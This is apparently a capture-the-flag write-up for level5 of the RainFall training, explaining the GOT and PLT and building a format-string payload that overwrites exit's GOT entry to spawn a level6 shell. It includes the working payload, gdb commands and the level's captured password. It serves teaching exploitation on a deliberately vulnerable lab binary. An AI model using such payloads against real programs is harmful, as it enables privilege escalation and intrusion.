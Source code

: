 # level5

### First analysis

Again we have an exercice that is probably going to be straightforward. We have a very similar case where fgets and printf are used but let's analyze the main differences we have in this one. Again using ghidra we can observe this code:

```c
void o(void) {
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}

void n(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

void main(void) {
  n();
  return;
}
```

This time everything is shown so we can understand pretty quickly what do we have to do here. As we can see o() function is never called, and we can easily guess that this level is about redirection. A function never called that executes a shell as level6 makes is kinda obvious. We can also see the usage of exit() function instead of a regular return.

### Find a solution

The first idea that comes to mind is to change the return address of n() to the start of the funtion o(). Exactly like in level1. However, as we seen, this program uses exit() functions instead of returns. The consequence of that is, as written as note in ghidra, the subroutine does not return. Indeed exit() stops the functions to return to main and instead simply leave the programs. That changes a lot because now changing the return value of a function is completely useless since it will never be used.

This is where we have to make a digression about a new aspect related to code execution, the GOT table.

### The GOT Table (digression)

GOT stands for Global Offset Table, so indeed saying GOT Table doesn't make a lot of sense. We are going to call it only the GOT for now on, along with another element, the PLT, the Procedure Linkage Table.

In order to make program lighter, not all functions are always stored in a binary. Libc for example is a huge library containing functions that we can use in our programs, functions like printf() for example or exit(). Those functions are not copied in every binary using those functions but will be called by them. That's why when clicking on printf on ghidra we can observe this:

```
<EXTERNAL>::printf
```

It is an external functions. However here we have a problem, the PIE we talked about earlier (level4) helps the program to always starts at the same position in memory, with offset it knows where to call every functions of the binary but how to find the address of an external functions where libc functions can changes addresses ? Indeed printf will not have the same position all the time and binaries needs a way to know how to call libc functions and where. (Here it wouldn't be that much of a problem since we saw that ASLR is not active on Rainfall, but still the question remains of findind the address a first time at least).

The PLT comes into play right here. If we try to see where printf elements are stored in our binary, we can see that the PLT (which is a section of our binary) define a j_printf functions, with j standing for jump instructions (ASM instruction to jump to an address). This jump instruction is usually directed to < function_name >@GOT. Okay that's a lot but let's try to make it clear.

The PLT is, as it stands for, a procedure. When an binary is executed, a lot of things happen before entering the main function. One of those things is to resolve libc functions and dynamic library calls. The PLT will call for every external function, another function called _dl_runtime_resolve(), part of the ld.so library. This library is a dynamic linker/loader. We are definitely not gonna explains in depth how this functions and library works (you can read the man if you're inrerested in that), what we need to know is that it will returns the address of the external functions we are looking for. It will then store this address in... you guessed it, the Global Offset Table. This address will now be used for every call of this function through the program (exit is called 2 times for example but the PLT is only gonna be called once, then the address will be stored on the GOT, and every call for that function will now check on the GOT and not call the PLT anymore).

### GOT Overwrite

Why are we interested in this GOT now ? Well it is actually possible to overwrite values from the GOT, which is exactly what we need. Since we can't overwrite the return address of n() because exit() is used, why not changing the address of exit() in the GOT for the o() function's address ? This is exactly what we are going to try to do.

We haven't talked about it yet but this program has a format string vulnerability. Very easy way to verify this:

```sh
level5@RainFall:~$ ./level5 
%x %x
200 b7fd1ac0
```

%x are replaced with numbers, we know that a format string vulnerabilty exists. We also already know a lot of things we can do with this kind of vulnerabilty from level3 and level4. So let's gather some informations:

```sh
(gdb) x o
0x80484a4 <o>:	0x83e58955

(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   [...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```

So we have the address of o, 0x80484a4, and we also have the call to the PLT at address 0x80483d0 for exit. Again PLT is a procedure to resolve the addresss of exit by indexing it in the GOT, the address we see here is not the address of exit. Let's analyze it knowing it:

```sh
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```

So by disassembling the address where the PLT points to, we find a new jump to the GOT this time, and we now know the address where exit function is stored in the GOT, 0x8049838. (The actual address of exit is 0x080483d6, but we don't care about that since it will be overwritten by the address of o(), what we want is where this address is stored).

A simple way to do that is to use gdb and changes the value during the execution to see if everything works as expected:

```sh
(gdb) b *0x080484f0
Breakpoint 1 at 0x80484f0
(gdb) b *0x080484f8
Breakpoint 2 at 0x80484f8
```

First we set a breakpoint before and after printf call. We then run the program, enter some random values on the buffer, and fall into the first breakpoint.

```sh
(gdb) set {int}0x8049838=0x80484a4
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080484a4
```

We set the value on the GOT for exit, as the value for o().

```sh
(gdb) c
Continuing.
$ whoami
level5
```

We then continued and we now launched a shell ! Of course as level5 since gdb execute the program with the privilege of the user using it, but it works. We now just have to do that with the format string vulnerability to have a shell as level6.

First important check, where is the buffer stored in the stack ?

```sh
level5@RainFall:~$ ./level5 
AAAA %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

As we can see it is the same format as for level3, the buffer size, then 2 addresses, then our buffer. So on the 4th position in the stack after where we are writing. And now it is exactly how we did for level4, write an address, into a specific memory address.

A more detailed explanation on how the payload is adapted for this level is in Resources/explanation.md but this is what we came up with:

```py
'\x40\x98\x04\x08' + 'AAAA' + '\x38\x98\x04\x08' + '%x' * 2 + '%2029x' + '%hn' + '%31904x' + '%hn'
```

We can now try it and see the flag:

```sh
level5@RainFall:~$ echo $(python -c "print('\x40\x98\x04\x08' + 'AAAA' + '\x38\x98\x04\x08' + '%x' * 2 + '%2029x' + '%hn' + '%31904x' + '%hn')") > /tmp/payload
level5@RainFall:~$ cat /tmp/payload - | /home/user/level5/level5
@AAAA8200b7fd1ac0

[...] # After a few thousands spaces

41414141
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Important doc

[GOT and PLT explained](https://www.youtube.com/watch?v=kUk5pw4w0h4)
[Exploiting FSV](https://medium.com/zh3r0/intro-to-pwn-protostar-format-strings-c86ca3458ad3)